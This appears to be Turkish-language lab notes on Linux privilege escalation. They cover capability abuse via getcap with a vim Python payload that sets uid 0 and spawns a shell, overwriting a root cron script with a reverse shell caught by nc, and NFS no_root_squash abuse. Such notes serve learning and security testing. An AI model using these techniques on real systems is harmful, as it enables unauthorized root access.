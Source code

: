 Ayrıcalık Yükseltme Yetenekleri:

# getcap ile priv esc


```bash
getcap -r / 2>/dev/null
``` 
![image](https://github.com/user-attachments/assets/41681c69-e0f1-4cfd-9b96-1fd99781a0b2)

daha sonra

![image](https://github.com/user-attachments/assets/f433e7ef-4b5a-422f-882e-b293290ead65)

Vim'in aşağıdaki komut ve yük ile kullanılabileceğini fark ediyoruz:
```bash
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
![image](https://github.com/user-attachments/assets/fda3d99b-ff2c-431b-8742-920c643d51a0)

---

# Cronjobs ile priv esc

```bash
cat /etc/crontab
```
![image](https://github.com/user-attachments/assets/0b0a0f38-b9c8-4955-9df3-fb418ce0768a)
backup.sh'ı görebiliyoruz içindekileri silip reverse bash shellimizi koyuyorzu ve nc ile dinliyoruz cronjob çalıştığı zaman shell gelicektir

Eğer backup.sh executable değil ise yürütülebilir yapıp yürütmeliyiz.

![image](https://github.com/user-attachments/assets/3f5f374f-507a-4f6e-89c7-aedca770a237)
 

---

# NFS (Ağ Dosya Paylaşımı) yapılandırması /etc/exports dosyasında tutulur.
```bash
cat /etc/exports
```
![image](https://github.com/user-attachments/assets/c82d3b7f-06d5-41d1-bd36-5a4486cac6fd)

Saldıran makinemizden bağlanabilir paylaşımları sayarak başlayacağız.

```bash
showmount -e [hedef_ip]
```
![image](https://github.com/user-attachments/assets/196a0842-5170-4d3f-be99-1369d61cb9a1)

Saldıracağımız makineye “no_root_squash” paylaşımlarından birini bağlayıp çalıştırılabilir dosyamızı oluşturmaya başlayacağız.
tmp içinde olmalı
![image](https://github.com/user-attachments/assets/0944424d-1742-40d7-9a31-3415a11af785)
sonra 
![image](https://github.com/user-attachments/assets/95393a6b-8542-43de-b917-86ad585d9bd5)















